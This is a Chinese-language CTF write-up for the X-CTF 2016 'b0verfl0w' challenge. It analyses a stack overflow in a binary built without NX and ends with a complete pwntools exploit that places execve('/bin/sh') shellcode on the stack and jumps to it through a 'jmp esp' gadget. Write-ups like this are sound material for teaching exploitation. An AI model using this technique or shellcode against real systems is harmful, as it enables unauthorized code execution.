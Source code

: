 ```yaml
---
title: X-CTF Quals 2016 - b0verfl0w
date: 2018-09-30 10:49:33
tags:
---
```

## 查看程序的安全保护，程序未开启NX
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

## 反汇编程序，源程序存在栈溢出漏洞
```C
signed int vul()
{
  char s; // [esp+18h] [ebp-20h]

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

## 分析汇编代码,fgets函数可以溢出0x28个字节的数据
我的理解是看`call    _fgets`这个call上面的参数，`lea     eax, [ebp+s]`ebp加上写入地址s的偏移后将该地址传给eax，值为[ebp-0x20]，`mov     [esp], eax`这句代码将上述的地址，传递给esp，现在栈顶指针指向的是s的具体地址，这个地址到ebp的距离为0x20各字节，所以最多可以溢出0x28个字节的数据

```
.text:0804851B vul             proc near               ; CODE XREF: main+6↑p
.text:0804851B
.text:0804851B s               = byte ptr -20h
.text:0804851B
.text:0804851B ; __unwind {
.text:0804851B                 push    ebp
.text:0804851C                 mov     ebp, esp
.text:0804851E                 sub     esp, 38h
.text:08048521                 mov     dword ptr [esp], offset s ; "\n======================"
.text:08048528                 call    _puts
.text:0804852D                 mov     dword ptr [esp], offset aWelcomeToXCtf2 ; "\nWelcome to X-CTF 2016!"
.text:08048534                 call    _puts
.text:08048539                 mov     dword ptr [esp], offset s ; "\n======================"
.text:08048540                 call    _puts
.text:08048545                 mov     dword ptr [esp], offset aWhatSYourName ; "What's your name?"
.text:0804854C                 call    _puts
.text:08048551                 mov     eax, ds:stdout@@GLIBC_2_0
.text:08048556                 mov     [esp], eax      ; stream
.text:08048559                 call    _fflush
.text:0804855E                 mov     eax, ds:stdin@@GLIBC_2_0
.text:08048563                 mov     [esp+8], eax    ; stream
.text:08048567                 mov     dword ptr [esp+4], 32h ; n
.text:0804856F                 lea     eax, [ebp+s]
.text:08048572                 mov     [esp], eax      ; s
.text:08048575                 call    _fgets
.text:0804857A                 lea     eax, [ebp+s]
.text:0804857D                 mov     [esp+4], eax
.text:08048581                 mov     dword ptr [esp], offset format ; "Hello %s."
.text:08048588                 call    _printf
.text:0804858D                 mov     eax, ds:stdout@@GLIBC_2_0
.text:08048592                 mov     [esp], eax      ; stream
.text:08048595                 call    _fflush
.text:0804859A                 mov     eax, 1
.text:0804859F                 leave
.text:080485A0                 retn
```

## 由于程序未开启NX，所以思路是在栈上布置shellcode，然后控制vul函数返回地址，即控制eip执行栈上的shellcode，栈上的布置如下：
> shellcoed|fake ebp|jmp esp gadgets|seb esp,0x28;jmp esp

通过jmp esp 的gadgets，将程序的eip指向栈中的代码，即`seb esp,0x28;jmp esp` 。正常情况下eip指向的是.text段中的代码，所以需要将`seb esp,0x28;jmp esp`转化为机器码，这里指的是十六进制机器码

## 通过ROPgadget，找到jmp esp gadgets的地址为0x08048504
```
$ ROPgadget --binary b0verfl0w --only 'jmp|ret'
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```
## EXP
```python
#!/usr/bin/env python
from pwn import *
p = process('./b0verfl0w')
jmp_esp = 0x08048504
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_jmp_esp = asm('sub esp, 0x28;jmp esp')
payload = shellcode_x86+'a'*(0x20-len(shellcode_x86))
payload += p32(0xdeadbeef)
payload += p32(jmp_esp)
payload += sub_jmp_esp

p.sendlineafter("What's your name?",payload)
p.interactive()
```
